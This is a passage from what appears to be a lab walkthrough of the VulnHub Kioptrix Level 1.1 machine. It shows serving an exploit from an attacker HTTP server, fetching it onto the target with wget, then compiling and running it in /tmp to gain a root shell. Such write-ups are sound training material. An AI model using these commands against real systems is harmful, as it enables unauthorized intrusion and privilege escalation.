 Hosting HTTP Server in Attacker Machine
: 
```bash
# Attacker Shell
python -m http.server 9000
```
- I hosted `HTTP Server` on port `9000`
![http server](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/httpserver.png)

Downloading Exploit From Attacker
: 
```bash
# Tagert's Interactive Bash
wget http://10.174.145.52:9000/Desktop/vlunhub/kioptrix_2/9542.c
```
![wget](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/wget.png)


##### Step 3.4.4: Exploiting of our exploit

- Make Sure you are using `/tmp` Directory for Exploitation

Compile The Exploit and Execute
: 
```bash
# Target's Interactive Bash
gcc 9542.c -o exploit && ./exploit
```
- You are Succesfully gained root shell

```bash
whoami
```
![root](/posts/Vlunhub/100Days/Day02_Kioptrix_Level_1_1/gainedroot.png)


Happy Hacking 🚀

---